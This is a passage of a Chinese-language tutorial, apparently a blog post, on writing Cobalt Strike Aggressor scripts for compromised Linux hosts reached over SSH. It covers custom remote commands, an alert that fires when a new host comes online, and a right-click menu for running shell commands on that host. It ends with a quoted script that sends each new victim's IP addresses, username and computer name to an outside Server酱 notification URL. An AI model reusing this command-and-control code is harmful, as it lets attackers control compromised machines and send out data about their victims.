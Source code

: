 `$1` 自定义的命令

`$2` 命令的介绍

`$3` 帮助信息，类似告诉他怎么用

举一个例子，现在我写一个命令用于从根目录查找我们想要的文件：

```
ssh_alias find {	bshell($1,"find / -name $2");}ssh_command_register (	"find",	"查找你想要的文件从根目录开始",	"使用方式: find test.txt");
```

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzDxJ1g3JhcaY4KQAQpVH99OROmhsRMNJ8ichef1ROPS6HDDoJ8pOASHTUTMv6mydKZy7ELRCfNHqhg/640?wx_fmt=png)

在 ssh 控制台中输入 ? 号就可以查看到命令和他的解释，使用 `help find` 可以查看到这个命令的使用方式解析：

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzDxJ1g3JhcaY4KQAQpVH99OTel5DD5gTtDwfp36rA4E1DhH7F8O1v9QNQGtCH8fcKCZKL6DhnslbQ/640?wx_fmt=png)

我们运行一下：

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzDxJ1g3JhcaY4KQAQpVH99Orqj0UbiaRonicT9uKWRJa1MwQnbGIePw6caWCosl1JVpWbLk577kyNtg/640?wx_fmt=png)

Reacting to new SSH Sessions 
-----------------------------

和 beacon 一样，当有新的 Liunx 主机上线时，我们做的事情，使用 ssh_initial 实事件触发，如下：

```
on ssh_initial {	show_message("有新的LIUNX主机上线\nIP为".beacon_info($1,"internal")."\n主机名字为：".beacon_info($1,"computer"));}
```

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzDxJ1g3JhcaY4KQAQpVH99OfJsklbtYMYWicAvjZeRGhibs9MVXtKAVxSWVNKjPWAFD2hH18L6B6KBQ/640?wx_fmt=png)

Popup Menus 
------------

适合 liunx 主机的右键菜单

```
popup ssh {	item "执行命令" {		prompt_text("你想运行哪一个命令?", "w", lambda({			binput(@ids, "shell $1");			bshell(@ids, $1);		}, @ids => $1));	}}
```

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzDxJ1g3JhcaY4KQAQpVH99O18wkBBqbdSsd73kYbP5vdAPaiaiauz176qu12edibXLxAL38ueicTrQT1g/640?wx_fmt=png)

使用方式和 Beacon 基本相同，所以不再赘述

Server 酱上线代码解析 
===============

> 代码来源：算命瞎子：http://www.nmd5.com/?p=567

源代码：

```
# 循环获取所有beaconon beacon_initial {    sub http_get {        local('$output');        $url = [new java.net.URL: $1];        $stream = [$url openStream];        $handle = [SleepUtils getIOHandle: $stream, $null];        @content = readAll($handle);        foreach $line (@content) {            $output .= $line . "\r\n";        }        println($output);    }    #获取ip、计算机名、登录账号    $externalIP = replace(beacon_info($1, "external"), " ", "_");    $internalIP = replace(beacon_info($1, "internal"), " ", "_");    $userName = replace(beacon_info($1, "user"), " ", "_");    $computerName = replace(beacon_info($1, "computer"), " ", "_");    #get一下Server酱的链接    $url = 'https://sc.ftqq.com/此处填写你Server酱的SCKEY码.send?text=CobaltStrike%e4%b8%8a%e7%ba%bf%e6%8f%90%e9%86%92&desp=%e4%bb%96%e6%9d%a5%e4%ba%86%e3%80%81%e4%bb%96%e6%9d%a5%e4%ba%86%ef%bc%8c%e4%bb%96%e8%84%9a%e8%b8%8f%e7%a5%a5%e4%ba%91%e8%b5%b0%e6%9d%a5%e4%ba%86%e3%80%82%0D%0A%0D%0A%e5%a4%96%e7%bd%91ip:'.$externalIP.'%0D%0A%0D%0A%e5%86%85%e7%bd%91ip:'.$internalIP.'%0D%0A%0D%0A%e7%94%a8%e6%88%b7%e5%90%8d:'.$userName.'%0D%0A%0D%0A%e8%ae%a1%e7%ae%97%e6%9c%ba%e5%90%8d:'.$computerName;    http_get($url);}
```
